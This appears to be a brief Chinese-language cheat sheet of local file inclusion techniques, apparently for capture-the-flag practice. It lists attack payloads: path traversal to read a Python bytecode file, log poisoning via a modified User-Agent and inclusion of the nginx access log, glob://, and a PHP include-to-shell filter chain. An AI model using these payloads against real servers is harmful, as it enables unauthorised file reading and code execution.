 # LFI/文件包含

| Name                                                   | payload                                                |     |
| ------------------------------------------------------ | ------------------------------------------------------ | --- |
| `?file=index` 或 `?file=index.php` 有可能需要去掉 .php |                                                        |     |
| PHP_INCLUDE_TO_SHELL_CHAR_DICT                         |                                                        |     |
| glob://                                                |                                                        |     |
| 日志包含                                               | 1.抓包修改 Agent 访问 2.包含日志 /var/log/nginx/access.log |

# Python

```sh
/download?file=../../../app/__pycache__/part.cpython-311.pyc
```
